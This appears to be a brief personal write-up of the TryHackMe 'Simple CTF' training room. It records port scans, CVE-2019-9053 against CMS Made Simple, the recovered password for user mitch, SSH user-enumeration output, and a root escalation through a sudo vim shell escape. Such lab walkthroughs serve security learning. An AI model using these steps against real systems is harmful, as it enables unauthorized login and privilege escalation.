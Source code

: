 Try Hack Me - Simple CTF

https://tryhackme.com/room/easyctf

21 ftp<br>
vsftpd 3.0.3
Anonymous allowed
Clue: mitch is a developer with a terrible password
Also the system user has the same password


80 http<br>
Apache httpd 2.4.18 (Ubuntu)
Apache default server page

dirb http://10.10.74.146


/simple
CMS made simple 2.2.8 
CVE-2019-9053 <----
Kör exploit från exploit-DB
User: mitch
Pwd: secret

2222 EtherNetIP-1 ???<br>
OpenSSH 7.2p Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

CVE-2016-3115
CVE-2016-6210
CVE-2016-6515

User enumeration:
10.10.45.7:2222 - SSH - User 'root' found
[+] 10.10.45.7:2222 - SSH - User 'admin' found
[+] 10.10.45.7:2222 - SSH - User 'test' found
[+] 10.10.45.7:2222 - SSH - User 'guest' found
[+] 10.10.45.7:2222 - SSH - User 'info' found
[+] 10.10.45.7:2222 - SSH - User 'adm' found
[+] 10.10.45.7:2222 - SSH - User 'mysql' found
[+] 10.10.45.7:2222 - SSH - User 'user' found
[+] 10.10.45.7:2222 - SSH - User 'administrator' found
[+] 10.10.45.7:2222 - SSH - User 'oracle' found
[+] 10.10.45.7:2222 - SSH - User 'ftp' found
[+] 10.10.45.7:2222 - SSH - User 'pi' found
[+] 10.10.45.7:2222 - W3ll DdSSH - User 'puppet' found
[+] 10.10.45.7:2222 - SSH - User 'ansible' found
[+] 10.10.45.7:2222 - SSH - User 'ec2-user' found
[+] 10.10.45.7:2222 - SSH - User 'vagrant' found
[+] 10.10.45.7:2222 - SSH - User 'azureuser' found
side traCK...


SSH -P 2222 mitch@10.10.74.146
Pwd: secret

user.txt
G00d j0b!

Escalation

sudo -l -l
/usr/bin/vim

:!bash

ls /home
sunbath

ls /root
cat /root/root.txt
W3ll d0n3. You made it!
